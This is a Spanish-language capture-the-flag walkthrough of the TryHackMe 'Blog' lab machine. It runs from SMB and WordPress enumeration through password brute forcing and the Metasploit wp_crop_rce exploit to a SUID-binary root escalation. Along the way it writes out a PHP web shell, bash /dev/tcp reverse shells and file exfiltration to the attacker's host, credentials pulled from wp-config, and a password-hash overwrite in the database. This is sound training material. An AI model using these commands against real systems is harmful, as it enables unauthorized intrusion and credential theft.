

# Blog - TryHackMe

## Reconocimiento

Vamos a hacer un escaneo con nmap para ver los puertos abiertos y los servicios que están corriendo en la máquina objetivo.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.130.129.179 -oG allPorts

PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 62
80/tcp  open  http         syn-ack ttl 62
139/tcp open  netbios-ssn  syn-ack ttl 62
445/tcp open  microsoft-ds syn-ack ttl 62
```

Vemos abiertos los puertos 22 (SSH), 80 (HTTP), 139 (SMB) y 445 (SMB).

```bash
nmap -sCV -p22,80,139,445 10.130.129.179

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: WordPress 5.0
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-07-22T10:30:56
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2026-07-22T10:30:56+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

Vemos que el puerto 80 tiene un servidor web corriendo con WordPress 5.0 y el puerto 445 tiene un servicio de Samba corriendo. Además vemos que el puerto 22 tiene un servicio SSH corriendo con OpenSSH 7.6p1 (Luego vemos si se pueden enumerar usuarios). EL puerto 139 también tiene un servicio de Samba corriendo.

Al entrar en http://10.130.129.179 vemos que es un blog pero no sale correctamente, vamos a añadir en /etc/hosts la IP de la máquina objetivo con el nombre de dominio, que vemos en el código fuente.

```html
<link rel='dns-prefetch' href='//blog.com' />
```

Ahora si lo vemos correctamente.



Inspeccioanndo la página vemos 2 nombres: `Billy Joel` y `Karen Wheeler`.

Vamos a hacer un escaneo con gobuster para ver si hay directorios ocultos.

```bash
gobuster dir -u http://blog.com -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --exclude-length 10701 --add-slash

/rss/                 (Status: 301) [Size: 0] [--> http://10.130.169.135/feed/]
/login/               (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php]
/icons/               (Status: 403) [Size: 279]
/feed/                (Status: 200) [Size: 3356]
/0/                   (Status: 200) [Size: 32074]
/atom/                (Status: 301) [Size: 0] [--> http://10.130.169.135/feed/atom/]
/wp-content/          (Status: 200) [Size: 0]
/admin/               (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]
/rss2/                (Status: 301) [Size: 0] [--> http://10.130.169.135/feed/]
/wp-includes/         (Status: 200) [Size: 42167]
/rdf/                 (Status: 301) [Size: 0] [--> http://10.130.169.135/feed/rdf/]
/page1/               (Status: 301) [Size: 0] [--> http://10.130.169.135/]
/dashboard/           (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]
/2020/                (Status: 200) [Size: 32410]
/wp-admin/            (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php?redirect_to=http%3A%2F%2F10.130.169.135%2Fwp-admin%2F&reauth=1]
```

También probé robots.txt y me encontré con esto: http://blog.thm/robots.txt

```txt
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
```

Si vamos a http://blog.thm//wp-admin/admin-ajax.php nos devuelve el carácter `0`.

admin-ajax.php es un archivo que se utiliza para manejar solicitudes AJAX en WordPress, estas solicitudes permiten que el sitio web se actualice dinámicamente sin necesidad de recargar la página completa. 

Si listamos los recursos compartidos del servidor SMB:

```bash
smbclient -L 10.130.169.135 -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	BillySMB        Disk      Billy's local SMB Share
	IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            BLOG
```

Vemos que hay un recurso compartido llamado `BillySMB`, vamos a conectarnos a él, pero antes de eso vemos los permisos con smbmap:

```bash
smbmap -H 10.130.169.135

[+] IP: 10.130.169.135:445	Name: blog.thm            	Status: NULL Session
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	BillySMB                                          	READ, WRITE	Billy's local SMB Share
	IPC$                                              	NO ACCESS	IPC Service (blog server (Samba, Ubuntu))
```

```bash
smbclient //10.130.169.135/BillySMB -N
smb: \> dir
  .                                   D        0  Wed Jul 22 12:04:24 2026
  ..                                  D        0  Tue May 26 18:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 19:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 19:13:45 2020
  check-this.png                      N     3082  Tue May 26 19:13:43 2020
```

Si usamos netexec (antiguamente crackmapexec) vemos lo siguiente:

```bash
nxc smb 10.130.169.135
[*] Initializing SMB protocol database
SMB         10.130.169.135  445    BLOG             [*] Unix - Samba (name:BLOG) (domain:) (signing:False) (SMBv1:True) (Null Auth:True)
```

Nos da información sobre el sistema operativo y el servicio de Samba que está corriendo, además nos dice que permite autenticación nula.

Nos traemos todos los archivos, vamos a verlos.

El check-this.png es un qr que nos lleva a este video: https://www.youtube.com/watch?v=eFTLKWw542g (Billy Joel - We Didn't Start The Fire (Official HD Video))

La imagen Alice-White-Rabbit.jpg la crackeamos con stegseek y el diccionario rockyou.txt y nos da lo siguiente:

```bash
stegseek Alice-White-Rabbit.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "rabbit_hole.txt".
[i] Extracting to "Alice-White-Rabbit.jpg.out".
```

Creo que se burlan de nosotros:

```
You've found yourself in a rabbit hole, friend.
```

Basicamente nos dice que estamos por mal camino.

Usamos searchsploit para buscar vulnerabilidades en ssh

```bash
OpenSSH < 7.7 - User Enumeration (2) 
searchsploit -m linux/remote/45939.py

python 45939.py 10.130.169.135 Billy
[+] Billy is a valid username
```

Vamos a probar fuerza bruta con hydra para ver si podemos obtener la contraseña de Billy:

```bash
hydra -l Billy -P /usr/share/wordlists/rockyou.txt ssh://10.130.169.135 -s 22 -t 4
```

Mientras usamos wpscan para enumerar usuarios en WordPress:

```bash
wpscan --url 'http://10.130.169.135' -e vp,u

[i] User(s) Identified:

[+] bjoel
[+] kwheel
```

Ahora que tenemos los usuarios de WordPress vamos a probar fuerza bruta con wpscan para ver si podemos obtener la contraseña de alguno de ellos:

```bash
wpscan --url http://10.130.169.135/ -U bjoel -P /usr/share/wordlists/rockyou.txt
```

Paralelamente vamos a hacer lo mismo con el otro usuario:

```bash
wpscan --url http://10.130.169.135/ -U kwheel -P /usr/share/wordlists/rockyou.txt

[!] Valid Combinations Found:
 | Username: kwheel, Password: cutiepie1
```

Entramos a WordPress con el usuario `kwheel` y la contraseña `cutiepie1`.

Una vez dentro vemos que no tenemos acceso a los plugins, pero si podemos subir archivos.

En searchsploit buscamos vulnerabilidades en WordPress 5.0 y encontramos esto WordPress 5.0.0 - Image Remote Code Execution.

Antes de usarlo, trataré de subir codigo php:

```bash
<?php
  system($_GET['cmd']);
?>
```

Lo renombramos como cmd.jpg y lo subimos, luego vamos a:

http://blog.thm/wp-content/uploads/2026/07/cmd.jpg?cmd=whoami 

Interceptamos la petición con burpsuite pero vamos a hacerlo todo desde metasploit, ya que es más rápido y nos da una reverse shell.

```bash
use exploit/multi/http/wp_crop_rce

[msf](Jobs:0 Agents:0) exploit(multi/http/wp_crop_rce) >> set LHOST 192.168.154.96
LHOST => 192.168.154.96
[msf](Jobs:0 Agents:0) exploit(multi/http/wp_crop_rce) >> set RHOST 10.130.147.132
RHOST => 10.130.147.132
[msf](Jobs:0 Agents:0) exploit(multi/http/wp_crop_rce) >> set USERNAME kwheel
USERNAME => kwheel
[msf](Jobs:0 Agents:0) exploit(multi/http/wp_crop_rce) >> set PASSWORD cutiepie1
PASSWORD => cutiepie1


[msf](Jobs:0 Agents:0) exploit(multi/http/wp_crop_rce) >> check
[+] 10.130.147.132:80 - The target appears to be vulnerable. The target appears to be running a vulnerable version of the plugin
[msf](Jobs:0 Agents:0) exploit(multi/http/wp_crop_rce) >> exploit

(Meterpreter 1)(/var/www/wordpress) > shell

whoami
www-data
```

## Escalada de privilegios

Vamos a ver si podemos escalar privilegios:

```bash
# Grupos
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

# SUID

find / -perm -4000 2>/dev/null

# No vemos nada

# Writable

find / -writable -type d 2>/dev/null

# user.txt

find / -name user.txt 2>/dev/null
```

Vamos a escuchar con nc en el puerto 4444 y luego ejecutamos el siguiente comando en la máquina objetivo:

```bash
bash -i >& /dev/tcp/192.168.154.96/443 0>&1
```

Hagamos un tratamiento de la TTY:

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 cols 184
```

```bash
www-data@blog:/var/spool$ sudo -l
[sudo] password for www-data:

```

Nos traemos a nuestra máquina el archivo Billy_Joel_Termination_May20-2020.pdf ubicado en /home/bjoel

En la maquina objetivo:
```bash
 cat Billy_Joel_Termination_May20-2020.pdf > /dev/tcp/192.168.154.96/8080
```

En mi maquina

```bash
nc -lvnp 8080 > Billy_Joel_Termination_May20-2020.pdf
```

```
5/20/2020
Bill Joel,
This letter is to inform you that your employment with Rubber Ducky Inc. will end effective immediately
on 5/20/2020.
You have been terminated for the following reasons:
• Repeated offenses regarding company removable media policy
• Repeated offenses regarding company Acceptable Use Policy
• Repeated offenses regarding tardiness
You will receive compensation up to and including today’s workday and any hours worked. This check
will be mailed to you at your address on file.
As of 5/20/2020 you have:
• 0 hours unused leave
• 0 hours unused vacation
You are requested to return all company property by the end of the business day on 5/22/2020 or you will
be charged with theft and prosecuted to the highest level.
If you have questions about policies you have signed, your compensation, benefits, or returning company
property, please don’t contact anyone because we don’t care.
Sincerely,
Karen Lawson
HR Administrator – Rubber Ducky Inc.
klawson@rubberducky.net
410-555-4165
```

Nos dice que Billy Joel fue despedido de Rubber Ducky Inc. por violar la política de medios extraíbles y la política de uso aceptable de la empresa, además de llegar tarde repetidamente. También nos da el correo electrónico de Karen Lawson, la administradora de recursos humanos.

```bash
uname -a
Linux blog 4.15.0-101-generic
```

Es una versión del kernel algo antigua, pero no vamos a usarla para escalar privilegios

```bash
getcap -r / 2>/dev/null
# Nada

crontab -l
no crontab for www-data

ss -tlnp

State                   Recv-Q                   Send-Q                                      Local Address:Port                                     Peer Address:Port                   
LISTEN                  0                        50                                                0.0.0.0:445                                           0.0.0.0:*                      
LISTEN                  0                        80                                              127.0.0.1:3306                                          0.0.0.0:*                      
LISTEN                  0                        50                                                0.0.0.0:139                                           0.0.0.0:*                      
LISTEN                  0                        128                                         127.0.0.53%lo:53                                            0.0.0.0:*                      
LISTEN                  0                        128                                               0.0.0.0:22                                            0.0.0.0:*                      
LISTEN                  0                        50                                                   [::]:445                                              [::]:*                      
LISTEN                  0                        50                                                   [::]:139                                              [::]:*                      
LISTEN                  0                        128                                                     *:80                                                  *:*                      
LISTEN                  0                        128                                                  [::]:22                                               [::]:*
```

Vemos que hay un servicio MySQL corriendo en el puerto 3306, pero solo acepta conexiones desde localhost.

Vemos que existe un archivo de configuración de MySQL en /var/www/wordpress/wp-config.php, vamos a ver si podemos obtener la contraseña de la base de datos.

```php
define('DB_NAME', 'blog');

/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

Perfecto, tenemos la contraseña de la base de datos, ahora vamos a conectarnos a MySQL:

```bash
mysql -u wordpressuser -p
mysql> use blog;
mysql> show tables;
+-----------------------+
| Tables_in_blog        |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+

mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url | user_registered     | user_activation_key | user_status | display_name  |
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
|  1 | bjoel      | $P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/ | bjoel         | nconkl1@outlook.com          |          | 2020-05-26 03:52:26 |                     |           0 | Billy Joel    |
|  3 | kwheel     | $P$BedNwvQ29vr1TPd80CDl6WnHyjr8te. | kwheel        | zlbiydwrtfjhmuuymk@ttirv.net |          | 2020-05-26 03:57:39 |                     |           0 | Karen Wheeler |
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
```

Vamos a crackear la contraseña de bjoel con john the ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Mientras crackeaba, encontré una carpeta llamada `/media/usb` en la que solo se puede entrar como bjoel, por lo que desde que acabe john, me loguearé como bjoel y entraré en la carpeta.

John tarda demasiado porque se trata de phpass, por lo que vamos a modificar el hash para que sea compatible con john:

admin123 en md5 es 0192023a7bbd73250516f069df18b500, por lo que vamos a modificar el hash de bjoel en la base de datos para poder loguearnos como él.

```bash
mysql -u wordpressuser -p
mysql> use blog;
mysql> update wp_users set user_pass = '0192023a7bbd73250516f069df18b500' where ID = 1;
```

Entramos al panel wp-admin e iniciamos sesión como bjoel con la contraseña `admin123`.

Ahora sí que tenemos acceso a los pluggins, por lo que vamos a modificar `wp-downgrade.php` y le añadiremos esto:


```php
system("bash -c 'bash -i >& /dev/tcp/192.168.154.96/8080 0>&1'");
```

De todas formas esto nos da acceso como www-data.

```bash
wget http://192.168.154.96/lse.sh
```

Ejecutamos el script lse.sh.

```bash
wget http://192.168.154.96/linpeas.sh
```

No saco nada en claro de toda la información, lo que sí veo es un binario: usr/sbin/checker con permisos suid pero que al ejecutarlo nos dice: Not an Admin

```bash
checker
Not an Admin
```

Si estamos como bjoel en wordpress vemos que hay un plugin llamado `wp-downgrade` que nos permite cambiar la versión de WordPress.

Mirando a profundidad, he descubierto el comando ltrace que permite rastrear las llamadas a funciones de bibliotecas compartidas. Al ejecutar el binario checker con ltrace, podemos ver que está buscando una variable de entorno llamada "admin". Si no encuentra esta variable, nos devuelve "Not an Admin".

```bash 
ltrace checker
getenv("admin")                                                                                                   = nil
puts("Not an Admin"Not an Admin
)                                                                                              = 13
+++ exited (status 0) +++
```

Por lo que si exportamos la variable de entorno "admin" con cualquier valor, el binario nos devolverá "You are an Admin".

```bash
export admin=1
checker

root@blog:/var/www# whoami
root
```

Nos metemos en /root y vemos una flag.

Como dije antes, cambiamos a bjoel y entramos en /media/usb, donde vemos la user.txt flag.